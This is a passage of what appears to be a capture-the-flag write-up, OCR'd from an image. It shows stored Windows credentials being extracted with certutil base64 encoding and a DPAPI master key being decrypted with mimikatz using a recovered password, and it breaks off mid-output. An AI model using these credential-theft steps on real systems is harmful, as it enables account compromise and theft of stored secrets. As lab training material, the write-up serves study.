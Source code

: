     C:\Users\security\AppData\Roaming\Microsoft\Credentials>certutil -encode 51AB168BE4BDB3A603DADE4F8CA81290 output
    Input Length = 538
    Output Length = 800
    CertUtil: -encode command completed successfully.

    C:\Users\security\AppData\Roaming\Microsoft\Credentials>type output
    -----BEGIN CERTIFICATE-----
    AQAAAA4CAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAALsOSB6VI40+LQ9k9
    ZFkFgAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQA
    aQBhAGwAIABEAGEAdABhAA0ACgAAABBmAAAAAQAAIAAAAPW7usJAvZDZr308LPt/
    MB8fEjrJTQejzAEgOBNfpaa8AAAAAA6AAAAAAgAAIAAAAPlkLTI/rjZqT3KT0C8m
    5Ecq3DKwC6xqBhkURY2t/T5SAAEAAOc1Qv9x0IUp+dpf+I7c1b5E0RycAsRf39nu
    WlMWKMsPno3CIetbTYOoV6/xNHMTHJJ1JyF/4XfgjWOmPrXOU0FXazMzKAbgYjY+
    WHhvt1Uaqi4GdrjjlX9Dzx8Rou0UnEMRBOX5PyA2SRbfJaAWjt4jeIvZ1xGSzbZh
    xcVobtJWyGkQV/5v4qKxdlugl57pFAwBAhDuqBrACDD3TDWhlqwfRr1p16hsqC2h
    X5u88cQMu+QdWNSokkr96X4qmabp8zopfvJQhAHCKaRRuRHpRpuhfXEojcbDfuJs
    ZezIrM1LWzwMLM/K5rCnY4Sg4nxO23oOzs4q/ZiJJSME21dnu8NAAAAAY/zBU7zW
    C+/QdKUJjqDlUviAlWLFU5hbqocgqCjmHgW9XRy4IAcRVRoQDtO4U1mLOHW6kLaJ
    vEgzQvv2cbicmQ==
    -----END CERTIFICATE-----

    C:\Users\security\AppData\Roaming\Microsoft\Credentials>del output





    root@kali# cat credentials.b64 | base64 -d > credentials



#### Decrypt Master Key

I'll move to a Windows host, and fire up `mimikatz`. I'll use the
`dpapi::masterkey` command to decrypt the master key using the password
from the security account:



      .#####.   mimikatz 2.1.1 (x64) #17763 Dec  9 2018 23:56:50
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

    mimikatz # dpapi::masterkey /in:\users\0xdf\desktop\masterkey /sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller
    **MASTERKEYS**
      dwVersion          : 00000002 - 2
      szGuid             : {0792c32e-48a5-4fe3-8b43-d93d64590580}
      dwFlags            : 00000005 - 5
      dwMasterKeyLen     : 000000b0 - 176
      dwBackupKeyLen     : 00000090 - 144
      dwCredHistLen      : 00000014 - 20
      dwDomainKeyLen     : 00000000 - 0
    [masterkey]
      **MASTERKEY**
        dwVersion        : 00000002 - 2
        salt             : 9c51ca4d00708c73d4fbff60b95e549e
        rounds           : 000043f8 - 17400
        algHash          : 0000800e - 32782 (CALG_SHA_512)
        algCrypt         : 00006610 - 26128 (CALG_AES_256)
        pbKey            : e78fb1d989c4ccd7a05285c17fae1c31ad1210f7ada051ae3203536df
    613e63a0e4647ca9ed51407637d8c1cc2ad16b2306aab56d7d2707b0c77422e7de39eb8bdfcca550
    44b4a7f853b6f0b3333213b5b0d80c7c1021f6c4ac2f5fa3772adbe50af7fdf07b0e0ea940d70a12